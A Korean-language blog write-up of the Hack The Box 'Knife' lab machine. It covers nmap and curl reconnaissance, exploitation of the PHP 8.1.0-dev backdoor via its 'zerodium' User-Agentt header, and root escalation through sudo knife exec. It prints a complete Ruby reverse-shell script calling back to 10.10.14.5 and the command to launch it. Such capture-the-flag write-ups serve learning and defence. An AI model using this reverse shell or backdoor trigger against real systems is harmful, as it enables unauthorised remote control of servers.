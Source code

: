 ```yaml
---
layout: post
title: Hack The Box - Knife
subtitle: Hack the box Knife machine
category: writeup
thumbnail-img: /assets/img/writeup/HTB/knife/pwned.png
tags:
  [
    writeup,
    hackthebox,
    knife,
    xss,
    eval,
  ]
author: Hong
---
```


# nmap

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-30 02:26 EDT
Nmap scan report for 10.10.10.242
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.57 seconds
```

# 웹서버

`curl -I $IP`

```
HTTP/1.1 200 OK
Date: Fri, 30 May 2025 00:38:54 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

php의 버전을 확인.

혹시 취약점이 있는지 구글링.

[poc](https://www.exploit-db.com/exploits/49933)를 발견했다.

poc를 실행하면 james의 쉘이 연결된다.

![james](/assets/img/writeup/HTB/knife/james.png)

# 권한상승

james의 홈 디렉토리에 ssh폴더 확인.
authorized_keys 파일을 생성 후 public key를 추가해서 ssh로 다시 연결.

`sudo -l`

```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

knife라는 서비스를 sudo 권한으로 사용할 수 있다.

매뉴얼을 살펴보니 knife의 명령어중에 exec라는 명령어를 발견했다.

https://docs.chef.io/workstation/knife_exec/

위의 커맨드로 루비 스크립트를 실행할 수 있다고 한다.

![exec](/assets/img/writeup/HTB/knife/exec.png)

루비로 리버스쉘을 작성 후 knife로 실행하기로 했다.

```ruby
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 5555, '10.10.14.5'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```

작성 후 아래의 커맨드를 실행하면 root로 연결됐다.

`sudo /usr/bin/knife exec /home/james/rev.rb`

![root](/assets/img/writeup/HTB/knife/root.png)

나중에 알았지만 gtfo bin에도 knife의 sudo가 있기 때문에 더 간단히 root 쉘을 얻는 방법도 있다.

# 취약점

## 백도어 코드

이 취약점의 문제는 백도어 코드가 적혀있었다는 것이다.

![poc](/assets/img/writeup/HTB/knife/poc.png)

이미지를 보면 zerodium 문자열로 시작할 경우 8글자 뒤 부터 입력되는 코드를 실행하는 함수가 적혀있다.

위의 코드대로라면 아래의 명령어처럼 시스템 명령어를 입력하는게 가능하다.

`User-Agentt: zerodiumsysytem(“ls”);`

악의적으로 삽입된 백도어 코드였다고 하는데 다행히 금방 발견되서 문제없던 코드로 리버트 됐다고 한다.

eval() 함수의 위험성을 다시 배울 수 있었다.

# 참고자료

- https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
